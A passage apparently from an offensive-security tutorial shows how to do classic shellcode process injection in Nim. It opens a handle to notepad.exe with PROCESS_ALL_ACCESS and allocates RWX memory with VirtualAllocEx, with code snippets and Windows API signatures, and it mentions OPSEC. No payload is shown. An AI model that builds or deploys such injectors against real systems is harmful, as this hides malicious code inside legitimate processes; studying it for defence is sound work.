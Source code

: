 3. Use WriteProcessMemory to write shellcode into the previously allocated memory

4. Use CreateRemoteThread to execute a thread with the shellcode in the process that we  initial created a handle to.

Let's start with talking about getting a handle to a process.

To choose a process, it a straight forward thing. Some process that we have access to and is common on a windows machine. If it's running we can get a handle to it, or we can start a new instance of that project with **startProcess**

```nim
let tProcess = startProcess("notepad.exe")
```

Once we have the process id of the process, we can use OpenProcess to get a handle to that process.

```c++
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

If we look at the [MSDN](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) documentation, we need to specify the Desired Access, InheritHandle and ProcessId.

* A parameter for the desired access level to the process. We are requesting PROCESS_ALL_ACCESS.
* A true/false flag to inherit a handle or not. We can set this to false.
* A parameter to point it to the process ID of process we want the handle for.

```nim
let pHandle = OpenProcess(PROCESS_ALL_ACCESS,false,cast[DWORD](tProcess.processID))
```

Once we have the handle, we can allocate memory space where we can write our shellcode.
For this, we can use [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex).

```c++
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

* The process handle that we created.
* Pointer that specifies a starting address for the memory that we want to allocate. It's a optional field, so we can keep it NULL.
* The size of the memory needed. For this, we cast the length of our shellcode array as the value.
* The type of memory allocation, which we want to be MEM_COMMIT. It reserve the space for the memory and allocate the space in a single step.
* The memory protection for the region of pages to be allocated. For this example we are using RWX, but it's not OPSEC SAFE.
